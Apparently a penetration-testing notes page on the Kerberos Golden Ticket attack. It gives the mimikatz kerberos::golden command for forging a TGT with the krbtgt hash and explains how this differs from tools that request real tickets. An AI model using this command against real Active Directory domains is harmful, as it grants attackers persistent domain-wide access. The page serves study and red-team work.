 # Golden Ticket

{% code overflow="wrap" %}
```powershell
mimikatz # kerberos::golden /user:Administrator /domain:<child domain> /sid:S-xxx /service:krbtgt /rc4:<Password hash of krbtgt user>
```
{% endcode %}

a. `/user:Administrator` : ...

b. ...

c. `/service:krbtgt` : specifies that this ticket is a TGT

#### Comparisons with other tools

Notice that the following fields does not need to be specified when creating a TGT with other tools such as mimikatz `kerberos::tgt` , kekeo `tgt::ask` or Rubeus `asktgt` :

a. `/service:krbtgt`

b. `/sid:xxxx`

This is because these tools actually requests a real TGT from the KDC (automatically handles it), while in  a Golden Ticket attack, we bypass the KDC altogether and create our own TGTs.&#x20;

> NOTE: Even though Golden Ticket are always TGTs (`/service:krbtgt` by default), Mimikatz provides flexibility with this field and forces users to explicitly identify it.

